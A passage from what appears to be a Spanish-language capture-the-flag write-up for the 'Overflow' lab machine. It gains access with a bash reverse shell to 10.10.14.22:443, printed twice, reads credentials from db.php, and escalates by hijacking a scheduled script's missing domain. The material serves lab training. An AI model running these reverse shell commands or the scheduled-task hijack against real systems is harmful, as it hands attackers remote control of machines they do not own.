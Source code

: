  ```html
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.22/443 0>&1
```

Y nos montamos un servidor en python para recibir mandar el archivo html

```py
python -m http.server 80
```

Ahora con netcat nos ponemos en escucha por el puerto 443 y subimos el archivo. Inmediatamente se ejecutara y obtendremos ahora acceso a la maquina.

![access](/assets/images/Overflow/acces.png)

En el directorio de db.php podremos encontrar un usuario y contrasena que son para developer.

![developer password](/assets/images/Overflow/developer.png)

![developer owned](/assets/images/Overflow/developer_owned.png)

Ahora podemos ver que tenemos en primera acceso al archivo /etc/hosts, y encontramos tambien un archivo que ejecuta un script en un dominio cada cierto tiempo en /opt/commontask.sh sobre un dominio que no existe "taskmanage.overflow.htb". Asi que ahora podemos crear un archivo llamado task.sh que se encargue de hacer una reverse shell

```sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.22/443 0>&1
```
